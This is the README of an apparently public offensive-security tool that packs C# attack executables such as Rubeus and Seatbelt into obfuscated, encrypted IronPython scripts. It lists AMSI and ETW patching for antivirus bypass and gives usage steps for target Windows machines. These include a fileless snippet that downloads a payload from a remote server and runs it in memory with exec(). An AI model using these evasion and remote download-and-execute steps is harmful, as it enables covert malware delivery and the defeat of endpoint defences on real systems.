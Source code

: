 ### Invoke-Python-SharpPacker.py
--------------------------------------
'Invoke-Python-SharpPacker' allows to pack offensive C# .NET executables to bypass AV solutions such as Windows Defender.  
It generates obfuscated Python scripts, designed to run with IronPython (https://ironpython.net/), embedding a compressed and encrypted version of the offensive C# .NET payloads (exe) for stealthy execution via reflective code loading in-memory.  

<i/>Note: this is an improved version of the cool project 'IronSharpPack'</i>

#### FEATURES
  - AMSI bypass (patching method / AmsiScanBuffer function)
  - ETW bypass in user-mode (patching method / EtwEventWrite function)
  - XOR encryption and Zlib compression
  - Reflective C# code loading in-memory
  - Script obfuscation and encoding (Base64)

#### USAGE
  - STEP 1. Compile and then copy in the same directory all the offensive C# .NET executables that you want to pack (e.g. Rubeus.exe, Certify.exe, Seatbelt.exe) 
    
  - STEP 2. Download the latest version of IronPython 3.4.2 (https://ironpython.net/) and copy the script 'Invoke-Python-SharpPacker.py' in the IronPython 3.4.2 folder 'Net462'
    
  - STEP 3. Generate obfuscated Python scripts that embed an encrypted version of the (C#) .NET executable files.  
```
C:\path\IronPython.3.4.2\Net462> ipy.exe Invoke-Python-SharpPacker.py "C:\path-to-folder-containing-C#-exe-to-pack"   

Note: the packed python scripts will be created in the folder "C:\path\IronPython.3.4.2\Net462"
```
  - STEP 4. Multiple options exist to download & execute the obfuscated Python scripts on a target Windows computer

    - Option A: Download the latest version of IronPython (3.4.2) + Fileless delivery of the obfuscated Python scripts 
```
1 - Download the latest version of IronPython 3.4.2 on a target Windows machine.
    Example:
    PS C:\temp> wget -uri https://github.com/IronLanguages/ironpython3/releases/download/v3.4.2/IronPython.3.4.2.zip -OutFile C:\temp\IronPython.3.4.2.zip
    PS C:\temp> tar -xf .\IronPython.3.4.2.zip

2 - Download from a remote web server and execute directly in memory the obfuscated Python scripts (embeding the offensive C# .NET executables) on the target Windows machine using IronPython. 
    This fileless delivery technique enhances stealth and helps evade static antivirus detection. With AMSI and ETW patched, in-memory execution avoids runtime AV detection.
    Example:
    --------
    C:\temp\IronPython.3.4.2\Net462> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://website/Packed-Python-Script-Seatbelt.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\IronPython.3.4.2\Net462> ipy.exe .\Python-fileless-delivery.py  "AMSIProviders"
```
   - Option B: Download the latest version of IronPython (3.4.2) + Download the obfuscated Python scripts (embeding the offensive C# .NET executables) locally before execution.
```
1 - Download the latest version of IronPython 3.4.2 on a target Windows machine.
    Example:
    PS C:\temp> wget -uri https://github.com/IronLanguages/ironpython3/releases/download/v3.4.2/IronPython.3.4.2.zip -OutFile C:\temp\IronPython.3.4.2.zip
    PS C:\temp> tar -xf .\IronPython.3.4.2.zip

2 - Download and store the obfuscated Python scripts locally on disk prior to execution with IronPython.
    The obfuscation and encryption help evade static analysis by most antivirus solutions, though this method may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\IronPython.3.4.2\Net462> ipy.exe .\Packed-Python-Script-Seatbelt.py  "AMSIProviders"
```
  - Option C: Use IronPython to bundle the obfuscated Python scripts into executables (e.g. script.exe) and then download and execute them on a target Windows computer
    => Not working yet. When using a command like "ipyc.exe /main:Packed-rubeus.py /target:exe /out:Packed-rubeus /standalone", an executable file is generated but it does not work due to issues related to missing import modules.

#### LICENSE
  - GNU General Public License v3.0
